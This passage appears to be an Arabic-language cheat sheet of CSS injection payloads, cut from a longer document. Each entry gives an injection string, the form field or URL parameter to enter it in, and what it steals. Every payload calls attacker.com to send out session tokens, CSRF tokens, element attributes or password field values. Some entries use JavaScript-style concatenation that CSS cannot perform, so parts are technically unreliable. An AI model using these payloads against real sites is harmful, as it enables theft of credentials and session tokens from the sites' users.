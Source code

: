   - **متى يُستخدم؟**: لتتبع الصفحة.
- **الحقن**: `<div style="background-image:url('http://attacker.com/log?s='+localStorage.getItem('token'))">`
  - **الإدخال**: أدخل في وصف: `<div style="background-image:url('http://attacker.com/log?s='+localStorage.getItem('token'))">`
  - **كيف يعمل**: يحاول إرسال رمز الجلسة (قد يتطلب دعم المتصفح).
  - **متى يُستخدم؟**: لسرقة بيانات التخزين.

#### ج. تسريب البيانات باستخدام CSS Selectors
استخدام CSS selectors لاستخراج قيم السمات أو النصوص.
- **الحقن**: `<style>input[value="secret"] { background-image:url('http://attacker.com/log?value=secret'); }</style>`
  - **الإدخال**: أدخل في حقل نصي: `<style>input[value="secret"] { background-image:url('http://attacker.com/log?value=secret'); }</style>`
  - **كيف يعمل**: يرسل قيمة حقل الإدخال إذا كانت "secret".
  - **متى يُستخدم؟**: لاستخراج قيم محددة (مثل رموز CSRF).
- **الحقن**: `<style>[data-token="abc123"] { background-image:url('http://attacker.com/log?token=abc123'); }</style>`
  - **الإدخال**: أدخل في وصف: `<style>[data-token="abc123"] { background-image:url('http://attacker.com/log?token=abc123'); }</style>`
  - **كيف يعمل**: يرسل قيمة السمة `data-token` إذا كانت "abc123".
  - **متى يُستخدم؟**: لاستخراج سمات مخصصة.
- **الحقن**: `<style>input[value^="s"] { background-image:url('http://attacker.com/log?value=s'); }</style>`
  - **الإدخال**: `https://example.com/?style=input[value^="s"]{background-image:url('http://attacker.com/log?value=s')}`
  - **كيف يعمل**: يرسل أول حرف من قيمة الحقل إذا بدأ بـ "s".
  - **متى يُستخدم؟**: لتسريب أحرف تدريجيًا.
- **الحقن**: `<style>#csrf-token[value="xyz789"] { background-image:url('http://attacker.com/log?csrf=xyz789'); }</style>`
  - **الإدخال**: أدخل في حقل تعليق: `<style>#csrf-token[value="xyz789"] { background-image:url('http://attacker.com/log?csrf=xyz789'); }</style>`
  - **كيف يعمل**: يرسل قيمة رمز CSRF إذا كانت "xyz789".
  - **متى يُستخدم؟**: لسرقة رموز CSRF.
- **الحقن**: `<style>input[type="password"] { background-image:url('http://attacker.com/log?pass='+this.value); }</style>`
  - **الإدخال**: أدخل في وصف: `<style>input[type="password"] { background-image:url('http://attacker.com/log?pass='+this.value); }</style>`
  - **كيف يعمل**: يحاول إرسال قيمة حقل كلمة المرور (قد يُحظر).
  - **متى يُستخدم؟**: لمحاولة تسريب كلمات المرور.

#### د. حقن باستخدام خاصية `content`
استخدام `content` لتسريب نصوص أو سمات.
- **الحقن**: `<style>p::after { content: attr(data-secret); background-image:url('http://attacker.com/log?s='+attr(data-secret)); }</style>`
  - **الإدخال**: أدخل في حقل نصي: `<style>p::after { content: attr(data-secret); background-image:url('http://attacker.com/log?s='+attr(data-secret)); }</style>`
  - **كيف يعمل**: يحاول إرسال قيمة السمة `data-secret`.
  - **متى يُستخدم؟**: لتسريب سمات العناصر.
- **الحقن**: `<style>div::before { content: attr(id); background-image:url('http://attacker.com/log?id='+attr(id)); }</style>`
  - **الإدخال**: أدخل في وصف: `<style>div::before { content: attr(id); background-image:url('http://attacker.com/log?id='+attr(id)); }</style>`
  - **كيف يعمل**: يرسل قيمة معرف العنصر.
  - **متى يُستخدم؟**: لتسريب معرفات العناصر.
- **الحقن**: `<style>input::after { content: attr(value); background-image:url('http://attacker.com/log?value='+attr(value)); }</style>`
  - **الإدخال**: `https://example.com/?style=input::after{content:attr(value);background-image:url('http://attacker.com/log?value='+attr(value))}`
  - **كيف يعمل**: يحاول إرسال قيمة حقل الإدخال.
  - **متى يُستخدم؟**: لتسريب قيم النماذج.
- **الحقن**: `<style>p::after { content: 'secret'; background-image:url('http://attacker.com/log?text=secret'); }</style>`